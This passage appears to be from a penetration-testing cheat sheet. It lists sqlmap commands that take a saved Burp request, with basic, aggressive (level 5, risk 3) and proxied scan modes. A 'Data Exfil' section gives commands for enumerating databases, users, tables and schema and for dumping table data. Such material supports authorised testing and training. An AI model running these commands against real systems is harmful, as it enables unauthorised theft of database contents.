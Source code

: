 {% tab title="File" %}
```bash
sqlmap -r burp.req --batch -v 0
```
{% endtab %}

{% tab title="Aggresive" %}
```bash
sqlmap -r burp.req --batch -v 0 --level=5 --risk=3
```
{% endtab %}

{% tab title="Proxy" %}
```bash
sqlmap -r burp.req --batch -v 0 --proxy http://127.0.0.1:8080
```
{% endtab %}
{% endtabs %}

### Data Exfil

{% tabs %}
{% tab title="DB" %}
```bash
# List databases
sqlmap -r burp.req --batch --dbs
# Current database and user
sqlmap -r burp.req --banner --current-user --current-db --is-dba --batch
```
{% endtab %}

{% tab title="Tables" %}
```bash
sqlmap -r burp.req -D testdb --tables --batch
```
{% endtab %}

{% tab title="Table Data" %}
```bash
sqlmap -r burp.req -D testdb -T testtable --dump --batch
```
{% endtab %}

{% tab title="Columns" %}
```bash
sqlmap -r burp.req -D testdb -T testtable --dump -C col1,col2 --batch
```
{% endtab %}

{% tab title="Rows" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req -D testdb -T testtable --dump -C --start=1 --stop=10 --batch
```
{% endcode %}
{% endtab %}

{% tab title="Schema" %}
```bash
sqlmap -r burp.req --schema --batch
```
{% endtab %}
{% endtabs %}
